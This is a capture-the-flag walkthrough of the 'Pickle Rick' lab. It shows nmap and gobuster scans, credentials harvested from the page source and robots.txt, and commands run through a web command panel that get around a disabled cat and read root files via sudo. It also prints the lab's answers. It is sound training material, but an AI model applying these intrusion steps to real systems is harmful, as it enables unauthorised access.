 > This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
# Task 1: Pickle Rick
## Question
> What is the first ingredient that Rick needs?
- Once we are connected to the VPN, we can start the machine.
![[1 73.png]]
- Now that we know the IP address of the Pickle Rick machine, lets perform a simple `nmap` scan to see which ports are open.
```
$ nmap -sC -sV 10.10.88.164
Starting Nmap 7.92 ( https://nmap.org ) at 2023-11-11 14:52 IST
Nmap scan report for 10.10.88.164
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b0:56:f1:d5:f7:ee:f0:9f:0f:9f:07:88:c6:56:7a:29 (RSA)
|   256 ef:9b:c2:3f:b3:84:8d:22:5e:d2:b4:09:59:ba:be:15 (ECDSA)
|_  256 0d:2a:4f:24:a0:9f:3d:20:80:31:b8:51:42:29:a7:0f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.91 seconds
```
- As we can see there are two open ports:
	- Port 22: SSH
	- Port 80: HTTP

| Port | Service |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

`user` file to get the flag.
- Let's enter the IP address in the browser and see what comes up.
![[2 72.png]]
- Let's check the page source for more information.
![[3 56.png]]
- So we have a username now: `R1ckRul3s`. However we don't know the password yet.
- On most websites, the `robots.txt` file does the job of disallowing web crawlers from accessing particular pages. Let's see if we can find anything there.
![[4 40.png]]
- Looks like `Wubbalubbadubdub` is the password.
- But where should we enter these credentials?
- In order to find the login page we will have to perform some directory brute-forcing. There are various tools available, but in this case let's use `gobuster`.
```
$ gobuster dir -u http://10.10.88.164 -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -x php
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.88.164
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 291]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.88.164/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
-- snip --;
```
- We can see a `/login.php` file. Let's go to the file in the browser.
![[5 25.png]]
- Let's enter the credentials that we found before i.e. `R1ckRul3s` as username and `Wubbalubbadubdub` as the password.
![[6 18.png]]
- We're in and we have a `Command Panel` to enter our commands.
- We can use the `ls` command to list the files and subdirectories.
![[7 12.png]]
- The `Sup3rS3cretPickl3Ingred.txt` file seems interesting. Let's `cat` the contents of that file.
![[8 5.png]]
- Oh! So `cat` is disabled. We have to find another way to read the file.
- We can `grep` all the contents of the file by using the `.` regular expression.
```
grep . Sup3rS3cretPickl3Ingred.txt
```
![[9 2.png]]
## Answer
```
mr. meeseek hair
```
## Question
> What is the second ingredient in Rick’s potion?
- We can check which user are present by using the following command:
```
cd /home ; ls
```
![[10 1.png]]
- Let's check what files `rick` has using the following command:
```
cd /home/rick ; ls
```
![[11 1.png]]
- Let's see what is in to the `second ingredients`.
```
grep . /home/rick/"second ingredients"
```
![[12 1.png]]
## Answer
```
1 jerry tear
```
## Question 
> What is the last and final ingredient?
- Let's look at the `/root` directory using the following command:
```
sudo ls /root
```
![[13 1.png]]
- As always, we can use `grep` to read the contents of a file.
```
sudo grep . /root/3rd.txt
```
![[14.png]]
## Answer
```
fleeb juice
```